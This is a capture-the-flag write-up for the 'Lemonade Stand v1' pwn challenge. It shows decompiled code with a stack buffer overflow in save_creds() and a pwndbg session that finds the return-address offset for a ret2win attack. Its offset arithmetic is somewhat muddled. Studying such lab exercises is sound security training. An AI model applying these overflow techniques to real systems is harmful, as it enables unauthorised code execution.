

# Lemonade Stand v1 

This challenge is an basic ret2win attack.

## Basic file checks

We see that the RELRO is full enabled so can't write anything in the GOT table to perform a "GOT overwrite" attack. \
The NX is also enabled, so that means we can't stored input or data cannot be executed as code to perform a shellcode attack.


## View the Source Code and find the vulnerability

We used Ghidra to disassemble the binary.\
The first thing that we want to do is to go to Functions section and select the main() to see\
what the binary is actually doing and what funtions are called.
```c
void main(void)

{
  long lVar1;
  
  setup();
  puts("\x1b[1;33m");
  cls();
  do {
    while( true ) {
      while (lVar1 = menu(), lVar1 == 1) {
        buy_normal();
      }
      if (lVar1 == 2) break;
      error("We don\'t sell grapes!");
    }
    buy_large();
  } while( true );
}
```


We saw that the main is calling two funcrions buy_normal()" and buy_large().\
We navigate to them and we saw that both of them they calling a save_creds() func.
```c
void buy_large(void)

{
  if (COINS < 6) {
    error("You don\'t have enough coins!");
    save_creds();
  }
  else {
    printf("\n%s[+] Enjoy your large lemonade!\n%s",&DAT_0040101e,&DAT_00400c88);
    COINS = COINS - 5;
  }
  return;
}
```

This is where the interesting thing starts. \
We see that we have a buffer overflow in the local_48 variable cause the size of it is 64 bytes and read can take 74 bytes

```assembly 
        00400ac7 48 8d 45 c0     LEA        RAX=>local_48,[RBP + -0x40]
```

```c

void save_creds(void)

{
  long lVar1;
  undefined8 local_48;
  undefined8 local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  undefined8 local_18;
  undefined8 local_10;
  
  local_28 = 0;
  local_20 = 0;
  local_18 = 0;
  local_10 = 0;
  buffer = 0;
  local_40 = 0;
  local_38 = 0;
  local_30 = 0;
  puts(
      "\n\nI can give you a free lemonade but I need your information for next time so you can pay m e back!\n"
      );
  printf("1. Yes\n2. No thanks\n\n>> ");
  lVar1 = read_num();
  if (lVar1 == 1) {
    printf("\nPlease tell me your name: ");
    read(0,&local_28,30);
    printf("\nPlease tell me your surname: ");
    read(0,&local_48,74);
    puts("Thanks a lot! Here is your lemonade!\n");
  }
  return;
}
```
We also found a function that is never been called and it will print the flag if somehow we achieve it.
That's our goal.

```c

void grapes(void)

{
  ssize_t sVar1;
  char local_d;
  int local_c;
  
  local_c = open("./flag.txt",0);
  if (local_c < 0) {
    perror("\nError opening flag.txt, please contact an Administrator.\n");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  while( true ) {
    sVar1 = read(local_c,&local_d,1);
    if (sVar1 < 1) break;
    fputc((int)local_d,stdout);
  }
  close(local_c);
  return;
}
```

## Exploit

First we want to find the offset.\
We will use pwndbg for this, to create a pattern known as De Bruijn Sequences to fill the padding for the buffer.
The pwntools calculate the entire 8 digits and found the offset to be 64, but we only care for the first 4 bytes so it will be 64 + 4*2 = 72 bytes

```shell
>> 1                                                                                         
                                                                                             
Please tell me your name: leo                                                                
                                                                                             
Please tell me your surname: aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa                                                         
Thanks a lot! Here is your lemonade!                                                         
                                                                                             
                                                                                             
Program received signal SIGSEGV, Segmentation fault.                                         
0x000000000040616a in ?? ()                                                                  
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────[ REGISTERS / show-flags off / show-compact-regs off ]────────────────────
*RAX  0x26
 RBX  0x0
*RCX  0x7ffff7910104 (write+20) ◂— cmp rax, -0x1000 /* 'H=' */
*RDX  0x7ffff7bed8c0 ◂— 0x0
*RDI  0x1
*RSI  0x7ffff7bec7e3 (_IO_2_1_stdout_+131) ◂— 0xbed8c0000000000a /* '\n' */
*R8   0x25
*R9   0x7ffff796eb90 ◂— mov r10, qword ptr [rsi - 0x1e]
*R10  0x20657361656c500a ('\nPlease ')
*R11  0x246
*R12  0x400780 (_start) ◂— xor ebp, ebp
*R13  0x7fffffffde50 ◂— 0x1
 R14  0x0
 R15  0x0
*RBP  0x6161616161616169 ('iaaaaaaa')
*RSP  0x7fffffffdd60 —▸ 0x7fffffffdd70 —▸ 0x400c00 (__libc_csu_init) ◂— push r15
*RIP  0x40616a
────────────────────────────[ DISASM / x86-64 / set emulate on ]─────────────────────────────
Invalid address 0x40616a


──────────────────────────────────────────[ STACK ]──────────────────────────────────────────
00:0000│ rsp 0x7fffffffdd60 —▸ 0x7fffffffdd70 —▸ 0x400c00 (__libc_csu_init) ◂— push r15
01:0008│     0x7fffffffdd68 —▸ 0x400bee (main+72) ◂— jmp 0x400bfd
02:0010│     0x7fffffffdd70 —▸ 0x400c00 (__libc_csu_init) ◂— push r15
03:0018│     0x7fffffffdd78 —▸ 0x7ffff7821c87 (__libc_start_main+231) ◂— mov edi, eax
04:0020│     0x7fffffffdd80 ◂— 0x2000000000
05:0028│     0x7fffffffdd88 —▸ 0x7fffffffde58 —▸ 0x7fffffffe1c0 ◂— '/home/vein/htb/hacktheboo_practise/pwn_lemonade_stand_v1/lemonade_stand_v1'
06:0030│     0x7fffffffdd90 ◂— 0x100000000
07:0038│     0x7fffffffdd98 —▸ 0x400ba6 (main) ◂— push rbp
────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────
 ► 0         0x40616a
   1   0x7fffffffdd70
   2         0x400bee main+72
─────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> aaaaaakaaaaaaalaaaaaaamaaa
Undefined command: "aaaaaakaaaaaaalaaaaaaamaaa".  Try "help".
pwndbg> cyclic -l iaaaaaaa
Finding cyclic pattern of 8 bytes: b'iaaaaaaa' (hex: 0x6961616161616161)
Found at offset 64
```


